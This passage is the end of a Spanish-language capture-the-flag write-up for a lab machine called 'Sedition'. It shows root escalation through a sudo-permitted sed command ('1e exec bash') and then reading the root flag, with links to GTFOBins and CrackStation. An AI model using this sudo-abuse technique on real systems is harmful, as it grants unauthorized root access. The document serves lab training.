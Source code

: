 Apliquémoslo:
```bash
debian@Sedition:~$ sudo sed -n '1e exec bash 1>&0' /etc/hosts
root@Sedition:/home/debian# whoami
root
```
Somos **Root**.

Obtengamos la última flag:
```bash
root@Sedition:/home/debian# cd /root
root@Sedition:~# ls
root.txt
root@Sedition:~# cat root.txt
...
```
Y con esto, terminamos la máquina.


<br>
<br>
<div style="position: relative;">
  <h2 id="Links" style="text-align:center;">Links de Investigación</h2>
</div>


* https://crackstation.net/
* https://gtfobins.github.io/gtfobins/sed/


<br>

# FIN

<footer id="myFooter">
    <!-- Footer para eliminar el botón -->
</footer>

<style>
        #backToIndex {
                display: none;
                position: fixed;
                left: 87%;
                top: 90%;
                z-index: 2000;
                background-color: #81fbf9;
                border-radius: 10px;
                border: none;
                padding: 4px 6px;
                cursor: pointer;
        }
</style>

<a id="backToIndex" href="#Indice">
        <img src="/assets/images/arrow-up.png" style="width: 45px; height: 45px;">